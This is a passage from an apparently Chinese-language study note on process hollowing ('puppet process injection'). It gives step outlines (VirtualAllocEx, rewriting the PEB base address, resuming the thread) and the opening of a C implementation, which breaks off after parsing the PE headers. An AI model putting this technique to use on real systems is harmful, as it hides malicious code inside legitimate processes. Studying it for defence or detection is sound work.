 #### 重新申请

利用VirtualAllocEx重新申请一块空间，然后把准备好的东西写进去

#### 设置PEB

重新写PEB里的base address【64->RDX】并设置好RCX寄存器（64位）

#### 恢复执行

直接resume就行了（不要注入svchost）

### 实现代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

typedef LONG(NTAPI* NtUnMapViewOfSectionPtr)(HANDLE hProcess, PVOID  BaseAddress);

typedef struct _PROCESS_BASIC_INFORMATION {
	PVOID Reserved1;
	PVOID PebBaseAddress;
	PVOID Reserved2[2];
	ULONG_PTR UniqueProcessId;
	PVOID Reserved3;
} PROCESS_BASIC_INFORMATION;

typedef LONG(NTAPI* NtQueryInformationProcessPtr)(
	HANDLE ProcessHandle,
	DWORD ProcessInformationClass,
	PVOID ProcessInformation,
	ULONG ProcessInformationLength,
	PULONG ReturnLength
	);


int main(int argc, char* argv[])

{
	// 准备要往里面替换的进程,一定要使用完整目录
	LPCSTR file_path = "E:\\信息安全知识学习\\ProcessThread注入\\进程注入学习代码\\傀儡进程注入\\x64\\Debug\\injected.exe";
	HANDLE hFile = CreateFileA(file_path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == INVALID_HANDLE_VALUE)
	{
		printf("Open EXE File Failed error code: %d", GetLastError());
		return 1;
	}
	DWORD dwFileSize = GetFileSize(hFile, NULL);
	PBYTE pBuf = (PBYTE)malloc(dwFileSize);

	DWORD dwBytesRead = 0;
	if (!ReadFile(hFile, pBuf, dwFileSize, &dwBytesRead, NULL))
	{
		printf("ReadFile Failed error code: %d", GetLastError());
		CloseHandle(hFile);
		free(pBuf);
		return 1;
	}
	// 得到主要运行内容的dos和nt头
	PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBuf;
	PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pBuf + pDosHeader->e_lfanew);

```